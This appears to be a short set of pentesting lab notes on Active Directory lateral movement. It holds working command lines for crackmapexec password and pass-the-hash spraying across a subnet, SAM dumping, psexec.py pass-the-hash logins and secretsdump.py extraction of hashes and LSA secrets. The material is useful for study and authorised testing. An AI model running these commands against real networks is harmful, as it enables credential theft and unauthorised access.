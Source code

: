 #NTLMv2 hashes cannot be passed around!

# crackmapexec
`crackmapexec` will take your credentials and tries to pass the credentials all over the ddomain
that way you can see what you have access to.

## Install
```
apt install crackmapexec
```
## Usage
```
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>
```
example:
```
crackmapexec smb 192.168.22.0/24 -u fcastle -d MARVEL -p Password1
```
or the HASH!
```
crackmapexec smb 192.168.22.0/24 -u fcastle -d MARVEL -H eb2323jk3dgsdfg293 --local-auth
```
Try dumping the sam by adding `--sam` at the end
Remove the `--local` flag for domain but you might get locked out

# With psexec
```
psexec.py "frank castler":@192.168.22.137 -hashes <hash>
```

# Dumping hashes with secretsdump
```
secretsdump.py marvel/fcastle:Password1@192.168.22.138
```
Get the LSA secrets for mimikatz later


